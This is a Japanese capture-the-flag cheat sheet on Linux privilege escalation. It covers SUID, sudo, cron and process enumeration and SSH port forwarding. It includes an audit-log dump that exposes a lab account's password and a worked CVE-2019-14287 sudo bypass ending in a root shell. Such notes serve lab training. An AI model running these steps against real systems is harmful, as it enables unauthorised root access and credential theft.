 ```yaml
---
layout: post
title: Linuxの特権昇格
published : true
tags: CTF Common cheatsheet linux 特権昇格 Privesc "privilage escaration"
---
```

## 列挙
### SUID
```sh
find / -perm -4000 2>/dev/null
```

### sudo
```sh
sudo -l
```

### プロセス
```sh
ps awxww
```

### サービス
```sh
ss -antul
```

### apache2 config
```
/etc/apache2/sites-enabled
```

## ssh-keygen プロンプトなし。(RCEでリモートマシン上にssh-keygenするときに使う)
```sh
ssh-keygen -t rsa -f /home/matt/.ssh/id_rsa'
```

## SSH port forwerding
```sh
ssh daniel@panda.htb -L 9999:localhost:80
```

## cron
```sh
cat /etc/cron.d/*
```
and
```sh
cat /var/spool/cron/crontabs/*                cat: '/var/spool/cron/crontabs/*': Permission denied
```

## 監査ログ
- ユーザがadmグループにいるとき、監査ログが確認できる。その他/ver/logの確認も。

```sh
cry0l1t3@academy:/$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:/$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs:
/var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
```

## sudo
sudo 1.8.28 より前のバージョンでは、CVE-2019-14287を適用できる場合がある。[JPCERT](https://www.jpcert.or.jp/newsflash/2019101601.html)
```sh
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
hugo@blunder:~$ sudo -l                       Password:                                     Matching Defaults entries for hugo on blunder:    env_reset, mail_badpass,                        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```